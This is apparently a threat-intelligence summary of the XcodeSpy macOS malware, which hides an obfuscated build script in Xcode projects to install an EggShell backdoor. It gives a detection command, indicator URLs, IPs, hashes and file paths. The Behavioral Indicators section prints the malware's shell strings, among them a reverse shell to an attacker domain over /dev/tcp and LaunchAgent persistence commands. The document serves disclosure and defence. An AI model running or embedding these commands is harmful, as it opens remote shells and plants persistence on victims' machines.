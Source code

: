 # New macOS malware XcodeSpy Targets Xcode Developers with EggShell Backdoor

- Obfuscated Run script phase in open source project
- Drops a custom variant of the Eggshell backdoor on the dev mac
- Installs a user LaunchAgent for persistence at `~/Library/LaunchAgents/com.apple.usagestatistics.plist` or `~/Library/LaunchAgents/com.apple.appstore.checkupdate.plist`, that checks to see if the original executable is running; if not, it creates a copy of the executable from a ‘master’ version at `~/Library/Application Support/com.apple.AppStore/.update` then executes it.
- Creates a hidden file called `.tag` in `/private/tmp` which contains command `mdbcmd`
- Creates a zero byte file at `/private/tmp/wt0217.lck` and a data file at `~/Library/Application Scripts/com.apple.Preview.stors`
- `/tmp/.avatmp`, a default path found in the public EggShell repo for storing AV captures
- Is able to record audio, camera and keyboard

## Detection and Mitigation

Execute:

```
find . -name "project.pbxproj" -print0 | xargs -0 awk '/shellScript/ && /eval/{print "\033[37m" $0 "\033[31m" FILENAME}'
```

to search for Run Scripts in the Build Phases part of an Xcode project (within the project.pbxproj file) containing both the strings `shellScript` and `eval`. If any are found, it prints out a copy of the script for inspection, along with the filename in which it was found.

## Indicators of Compromise
### URLs & Resolving IPs
www[.]cralev.me/
hxxps://www[.]liveupdate.cc/preview/update.php
hxxps://www[.]appmarket.co/category/search.php
hxxps://www[.]recentnews.cc/latest/details.php
hxxps://www[.]truckrental.cc/order/search.php
hxxps://www[.]everestnote.com/sheet/list.php
hxxps://www[.]alinbox.co/product/product_detail.php
hxxps://www[.]suppro.co/category/search.php

193.34.167.111
193.34.167.205

### EggShell bins: */.update
SHA 256: 6d93a714dd008746569c0fbd00fadccbd5f15eef06b200a4e831df0dc8f3d05b
SHA 1: 556a2174398890e3d628aec0163a42a7b7fb8ffd
SHA 256: cdad080d2caa5ca75b658ad102987338b15c7430c6f51792304ef06281a7e134
SHA 1: 0ae9d61185f793c6d53e560e91265583675abeb6

### Xcode proj: TabBarInteraction.zip
SHA 256: 1cfa154d0145c1fe059ffe61e7b295c16bbc0e0b0e707e7ad0b5f76c7d6b66d2
SHA 1: d65334d6c829955947f0ceb2258581c59cfd7dab

### Encoded Filepaths
~/Library/Application Scripts/com.apple.TextEdit/.stors
~/Library/Application Scripts/com.apple.Preview/.stors
~/Library/Application Scripts/com.apple.usernoted/.wfy1607
~/Library/Application Scripts/com.apple.TextEdit/.scriptdb
~/Library/Application Support/com.apple.AppStore/.update
~/Library/Application Support/com.apple.usernoted/.wfy1607
~/Library/LaunchAgents/com.apple.usagestatistics.plist
~/Library/LaunchAgents/com.apple.appstore.checkupdate.plist
/private/tmp/.osacache
/private/tmp/.osacache2
/private/tmp/.update
/tmp/.avatmp
/private/tmp/.wt0217.lck
/private/tmp/.tag

### Behavioral Indicators
```
killall %@;sleep 3;cp "%@" "%@";chmod +x "%@";"%@" %@ 1>/dev/null 2>/dev/null
if (! pgrep -x %@ >/dev/null);then cp "%@" "%@";chmod +x "%@";"%@";fi;
sleep 1;launchctl unload "%@" > /dev/null;launchctl load "%@" > /dev/null
launchctl unload "%@" 2>/dev/null; rm "%@"
echo mdbcmd > /private/tmp/.tag;bash&> /dev/tcp/www.cralev.me/443 0>&1 &
```

## [Source](https://labs.sentinelone.com/new-macos-malware-xcodespy-targets-xcode-developers-with-eggshell-backdoor/)